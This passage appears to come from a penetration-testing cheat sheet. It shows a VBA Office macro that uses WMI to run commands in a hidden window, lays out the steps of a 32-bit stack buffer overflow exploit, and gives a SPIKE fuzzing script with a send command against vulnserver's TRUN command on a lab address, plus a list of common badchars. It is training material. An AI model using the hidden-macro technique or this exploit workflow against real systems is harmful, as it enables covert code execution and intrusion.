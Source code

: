 ### Hide Foreground with WMI (Windows, Office Macros)

```console
Sub example()
  Const HIDDEN_WINDOW = 0
  Dim cmd As String

  cmd = "Here there is some commands to execute inside the macro via WMI"
  Set objWMIService = GetObject("winmgmts:")
  Set objStartup = objWMIService.Get("Win32_ProcessStartup")
  Set objConfig = objStartup.SpawnInstance_
  objConfig.ShowWindow = HIDDEN_WINDOW
  Set objProcess = GetObject("winmgmts:Win32_Process")
  errReturn = objProcess.Create(str, Null, objConfig, pid)
End Sub
```

## Simple Buffer Overflow (32 bits, NO ASLR and NO DEP)

### Summarized steps

* 0 - Crash the application
* 1 - Fuzzing (find aprox number of bytes where the crash took place)
* 2 - Find offset
* 3 - EIP control
* 4 - Check for enough space on buffer
* 5 - Badchars counting
* 6 - Find return address (JMP ESP)
* 7 - Create payload

### Fuzzing: example with vulnserver + spike on TRUN command

```console
cat > trun.spk <<EOF
s_readline();
s_string("TRUN ");
s_string_variable("COMMAND");
EOF
```

Now, start wireshark filtering on the target IP/PORT below and run the `trun.spk`:

```console
generic_send_tcp 172.16.42.131 9999 trun.spk 0 0
```

Once a crash takes place, go to wireshark to locate the crash.

### Badchars

From the block below, the next ones were not included (most common badchars):

```console
\x00 --> null byte
\x0a --> new line character (AKA "\n")
```
